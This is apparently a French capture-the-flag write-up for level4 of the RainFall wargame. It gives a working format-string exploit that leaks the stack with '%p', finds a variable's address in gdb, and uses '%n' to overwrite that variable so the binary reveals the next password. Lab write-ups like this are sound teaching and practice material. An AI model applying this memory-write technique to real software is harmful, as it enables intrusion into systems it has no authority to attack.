 # Solution 

```
python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")' | ./level4
```

## Explication du level

La solution ici est identique au lvl precedent

```
level4@RainFall:~$ python -c 'print("AAAA" + " %p " * 12)' | ./level4 
AAAA 0xb7ff26b0  0xbffff794  0xb7fd0ff4  (nil)  (nil)  0xbffff758  0x804848d  0xbffff550  0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141 

level4@RainFall:~$ gdb ./level4 
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x8049810
```

1025544 en hexa = 16930116 - 4 de l'adresse 16930112
```
python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")' | ./level4
```
Pas besoin de cat car cela affiche le mdp directement